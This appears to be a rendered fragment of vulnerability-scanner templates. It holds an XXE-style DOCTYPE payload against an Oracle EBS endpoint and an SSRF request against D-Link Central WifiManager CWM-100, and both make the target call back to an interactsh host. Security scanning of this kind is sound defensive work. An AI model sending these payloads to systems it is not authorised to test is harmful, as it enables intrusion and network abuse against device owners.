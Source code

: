 ## Requests

- Method - POST
- Method - POST

### URL

- {{BaseURL}}/OA_HTML/lcmServiceController.jsp
  - <!DOCTYPE root PUBLIC "-//B/A/EN" "http://interact.sh">

### Matchers

**Type - word**

- words
  1. Unexpected text in DTD
- part - body

**Type - status**

- status
  1. 200

---

# D-Link Central WifiManager - Server-Side Request Forgery

## Description

- D-Link Central WifiManager is susceptible to server-side request forgery. The MailConnect feature on D-Link Central WiFiManager CWM-100 1.03 r0098 devices is intended to check a connection to an SMTP server but actually allows outbound TCP to any port on any IP address, as demonstrated by an index.php/System/MailConnect/host/127.0.0.1/port/22/secure/ URI. This can undermine accountability of where scan or connections actually came from and or bypass the FW etc. This can be automated via script or using a browser.
- severity - high
- tags - seclists,packetstorm,cve,cve2018,dlink,ssrf,oast

## Requests

- Method - GET

### URL

- {{BaseURL}}/index.php/System/MailConnect/host/{{interactsh-url}}/port/80/secure/

### Matchers

**Type - word**

- part - interactsh_protocol
- words
  1. http

---